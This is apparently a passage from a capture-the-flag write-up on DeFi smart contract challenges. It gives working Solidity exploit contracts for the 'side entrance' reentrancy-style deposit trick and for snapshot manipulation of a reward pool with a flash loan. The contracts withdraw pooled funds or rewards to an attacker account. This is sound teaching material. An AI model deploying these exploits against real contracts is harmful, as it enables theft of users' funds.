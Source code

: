 ```solidity
function attack()
    public
{
    // calls execute, then checks pool balance
    _pool.flashLoan(_poolBalance);

    _pool.withdraw();
    _attackerEOA.transfer(_poolBalance);
}

// called by ISideEntranceLenderPool::flashLoan
function execute() external payable {
    // deposit the tokens again, crediting the attacker contract
    // and passing the flash loan balance check
    _pool.deposit{value: _poolBalance}();
}

// needed for pool.withdraw() to work
receive() external payable {}
```

## 5. The rewarder

In this challenge, there is a _reward contract_ in addition to the flash loan contract.
The reward contract pays out rewards every 5 days based on a snapshot token balance.
As a general rule, if some logic relies on a single snapshot in time instead of continuous/aggregated data points, it can be manipulated by flash loans.
This is also true here, we can wait until rewards are being distributed again, take a huge flash loan, and deposit all tokens from the flash loan to the reward pool.
Its `deposit` function creates a new snapshot of the current token balances and immediately distributes the rewards.
Due to our token balance and thus our share of the overall tokens in the reward pool being so high, the integer division results in all other accounts receiving `0` rewards.

```solidity
function attack() public {
    // take a flash loan, deposit into rewards pool
    // receive rewards, pay back flash loan

    uint256 flashLoanBalance =
        liquidityToken.balanceOf(address(flashLoanPool));
    // approve amount of flashloan for rewarderPool.deposit
    liquidityToken.approve(address(rewarderPool), flashLoanBalance);
    flashLoanPool.flashLoan(flashLoanBalance);

    // send reward tokens to attacker EOA
    require(rewardToken.balanceOf(address(this)) > 0, "reward balance was 0");
    bool success =
        rewardToken.transfer(
            msg.sender,
            rewardToken.balanceOf(address(this))
        );
    require(success, "reward transfer failed");
}

// called by IFlashLoanerPool::flashLoan
function receiveFlashLoan(uint256 amount) external {
    // deposit distributes rewards already
    rewarderPool.deposit(amount);
    rewarderPool.withdraw(amount);
    // pay back to flash loan sender
    liquidityToken.transfer(address(flashLoanPool), amount);
}
```